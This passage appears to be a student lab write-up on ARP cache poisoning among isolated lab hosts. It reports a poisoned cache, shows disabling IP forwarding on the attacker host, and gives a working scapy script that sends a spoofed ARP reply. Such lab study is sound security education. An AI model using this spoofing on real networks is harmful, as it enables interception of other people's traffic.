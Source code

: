 Prior to executing this script, the cache tables of all the hosts were empty.

After executing the script, we see that on host A, we got a packet. Opening the ARP cache, we see that it maps the IP of host B to the MAC address of the attacker (host M).

![](./screenshots/arp-1.png)

Therefore, we successfully poisoned the cache of host A.

> If we ping from Host A to Host B, the attack seems to have failed. As the packets are sent to B and not to M. What actually happens is that the packets are first sent to M, but M sees that the destination IP is actually B. M is configured by default to forward packets to the correct host, so if we close IP forwarding on host M, the packets stay at M and are not forwarded to B.
```bash
sysctl net.ipv4.ip_forward=0
```

Now, if we try and ping host B from host A, the packets are all sent to host M, and the attack succeeds.

### Task 1.B: ARP Reply

> We need to posion the ARP cache of host A.

Similar to the above task, we send an ARP reply message with SRC IP of B and SRC MAC of M. This spoofed data will poison the ARP cache of host A.

```python
from scapy.all import *

A_IP = "10.9.0.5"
B_IP = "10.9.0.6"
M_IP = "10.9.0.105"

A_MAC = "02:42:0a:09:00:05"
B_MAC = "02:42:0a:09:00:06"
M_MAC = "02:42:0a:09:00:69"

# Ethernet layer. Sending a packet from M to A.
E = Ether(src=M_MAC, dst= A_MAC)

# ARP layer. Sending a packet from M to A with B IP AND M MAC.
A = ARP(hwsrc=M_MAC, psrc=B_IP, hwdst=A_MAC, pdst=A_IP, op=2)

pkt = E/A
sendp(pkt, iface="eth0")
```
> `op=2` for reply.
